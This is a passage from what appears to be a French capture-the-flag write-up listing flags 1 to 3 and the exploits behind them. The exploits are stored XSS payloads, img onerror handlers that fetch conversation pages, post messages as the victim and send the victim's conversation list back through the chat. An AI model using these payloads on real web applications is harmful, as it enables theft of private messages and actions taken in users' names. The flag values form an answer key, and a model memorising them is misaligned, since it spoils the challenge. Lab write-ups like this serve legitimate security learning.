 ```html
  .then(r => r.text())
  .then(t => (t.match(/flag[12]:[0-9a-fA-F]{16}/g) || []).join(' '))
  .then(f => fetch('/conversation/88f02055cb77cdd3')
    .then(() => {
      message.value = f;
      messageButton.click();
    }));
"/>
  ```
  qui me retourne **flag1:1479d95b923cd93f flag2:573bc50a703e82a3**

### Flag 2

**Flag**: flag2:573bc50a703e82a3

**Exploit**: 
Expliquer ci-dessus

### Flag 3

**Flag**: flag3:62356e2f510c31aa

**Exploit**: 
On commence par envoyé **request for last part of access sequence** via Echo a Nova
```html
<img src="hello" onerror="fetch(`/conversation/c4234370f7b59b46`, {
	method: 'POST',
	headers: {
		'Content-Type': 'application/json'
	},
	body: JSON.stringify({message:'request for last part of access sequence'})
})   
"/>
```
 Puis refaire ce code qui nous donne le flag3 
 ```html
 <img src="" onerror="
fetch('/conversation/88f02055cb77cdd3').then(async () => {
  if (document.querySelector('#header .name')?.innerText !== 'Nathan Fullemann') {
    const t = [...document.querySelectorAll('#conversations-list')].map(c => c.innerHTML.trim()).join('|||');
    message.innerHTML = t;
    messageButton.click();
  }
});
"/>
/>
```
## Partie 2

### Flag 4
